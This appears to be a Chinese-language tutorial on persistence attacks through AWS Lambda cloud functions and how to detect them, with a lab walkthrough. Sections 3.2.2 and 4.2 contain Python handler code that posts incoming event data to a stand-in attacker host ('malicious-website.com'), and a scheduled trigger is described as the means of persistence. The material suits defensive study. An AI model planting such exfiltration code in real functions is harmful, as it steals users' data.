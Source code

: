 # 云函数持久化攻击的检测与监控

## 1. 技术原理解析

### 1.1 云函数的基本概念

云函数（Serverless Functions）是一种无服务器计算模式，允许开发人员在云平台上运行代码而无需管理底层服务器。云函数通常以事件驱动的方式执行，具有自动伸缩和按需计费的优点。然而，这种架构也带来了新的安全挑战，尤其是持久化攻击。

### 1.2 云函数持久化攻击概述

云函数持久化攻击是指攻击者利用云函数的特性在云环境中植入持久性恶意代码。在攻击成功后，攻击者可以通过合法的触发条件（如事件或定时任务）来重新激活恶意代码，从而实现长期控制。

### 1.3 攻击原理

攻击者通常通过以下方式实现持久化攻击：
1. **代码注入**：通过修改现有函数的代码，植入恶意逻辑。
2. **环境变量滥用**：利用环境变量存储敏感信息或恶意代码。
3. **依赖包篡改**：在云函数依赖的第三方库中植入后门代码。
4. **触发器配置**：配置触发器使恶意代码在特定事件发生时自动执行。

### 1.4 攻击检测原理

检测云函数持久化攻击主要依赖于以下几个方面：
1. **代码审计**：定期检查云函数的源代码，寻找异常或不合规的代码变更。
2. **行为监控**：监控云函数的执行日志，识别异常调用和行为模式。
3. **依赖管理**：使用工具检测依赖包的完整性和合法性。
4. **访问控制审计**：检查对云函数的访问权限，确保只允许授权用户访问。

## 2. 变种与高级利用技巧

### 2.1 变种攻击方式

1. **回调攻击**：攻击者通过利用事件回调机制，持续调用恶意代码。
2. **定时任务持久化**：通过定时触发器自动调用恶意函数。
3. **API网关滥用**：利用API网关配置错误，向恶意函数发送请求。

### 2.2 高级利用技巧

- **多云环境滥用**：在多个云平台上部署相同的恶意代码，增加检测难度。
- **隐蔽性增强**：通过加密或混淆代码，降低被检测的可能性。
- **动态加载恶意代码**：在云函数运行时从外部服务器动态加载恶意代码，避免代码审计。

## 3. 攻击步骤与实验环境搭建

### 3.1 实验环境搭建

为了演示云函数持久化攻击及其检测，建议使用以下工具和环境：
- **云服务提供商**：AWS Lambda、Azure Functions 或 Google Cloud Functions。
- **代码编辑器**：Visual Studio Code 或 JetBrains。
- **版本控制**：Git。
- **监控工具**：CloudTrail（AWS）、Azure Monitor 或 Google Cloud Operations。

### 3.2 攻击步骤

#### 3.2.1 攻击准备

1. **创建云函数**：
   - 在AWS Lambda上创建一个简单的Lambda函数，执行基本任务（如返回'Hello World'）。
   ```python
   def lambda_handler(event, context):
       return 'Hello World'
   ```

2. **配置触发器**：
   - 设置API Gateway触发器，允许HTTP请求触发该函数。

#### 3.2.2 代码注入

1. **修改代码**：在上述函数中植入恶意代码。
   ```python
   import requests

   def lambda_handler(event, context):
       # 原有逻辑
       response = requests.post("http://malicious-website.com/steal-data", data=event)
       return 'Hello World'
   ```

2. **部署代码**：将修改后的函数部署到云环境。

#### 3.2.3 持久化设置

1. **设置定时触发器**：在AWS Lambda中设置CloudWatch Events触发器，使其每分钟调用一次该函数。

#### 3.2.4 监控与检测

1. **启用AWS CloudTrail**：监控API调用，检查对Lambda函数的非法访问和变更。
2. **使用AWS Config**：设置规则，检查Lambda函数代码的合规性。

## 4. 实战演练

### 4.1 环境配置

1. **创建AWS账户**：注册并登录AWS管理控制台。
2. **启动Lambda函数**：
   - 进入Lambda控制台，点击“Create function”。
   - 选择“Author from scratch”，命名为`TestFunction`，选择Python 3.x运行时。

### 4.2 编写恶意代码

```python
import requests

def lambda_handler(event, context):
    # 发送数据到攻击者服务器
    requests.post("http://malicious-website.com/steal-data", json=event)
    return 'Data sent to attacker'
```

### 4.3 部署与测试

1. **部署代码**：点击“Deploy”按钮。
2. **测试函数**：在测试事件中添加模拟事件，然后点击“Test”进行测试。

### 4.4 持久化与监控

1. **创建触发器**：在“Configuration”下的“Triggers”选项中，添加CloudWatch Events触发器。
2. **配置CloudTrail**：在CloudTrail控制台中创建新的Trail，监控Lambda的所有API调用。

### 4.5 监控命令与工具

- 使用AWS CLI监控Lambda函数的执行：
```bash
aws lambda invoke --function-name TestFunction out.txt
```

- 查看CloudTrail日志：
```bash
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=Invoke
```

## 5. 总结

云函数持久化攻击是一种潜在的严重安全威胁，能够长期控制云环境中的敏感操作。通过深入理解其攻击原理、变种和高级利用技巧，以及实施有效的监控和检测措施，可以显著降低云函数遭受此类攻击的风险。定期的代码审计、环境监控和权限管理是保护云函数安全的有效策略。

---

*文档生成时间: 2025-03-13 22:34:23*
